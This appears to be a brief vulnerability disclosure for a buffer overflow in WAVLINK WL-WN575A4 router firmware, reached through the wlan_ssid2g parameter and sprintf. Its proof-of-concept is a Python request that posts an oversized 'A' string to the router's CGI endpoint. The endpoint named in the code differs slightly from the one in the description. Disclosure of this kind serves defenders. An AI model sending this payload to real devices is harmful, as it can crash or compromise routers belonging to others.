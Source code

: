 # buffer overflow

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a buffer overflow in adm.cgi/set_wzdap

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](1.png)

get value from wlan_ssid2g ,and call sprintf, cause buff overflow



## POC
```
url = "http://192.168.0.1/cgi-bin/set_sys_adm.cgi"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'wzdap', 'wlan_ssid2g': payload})
``` 
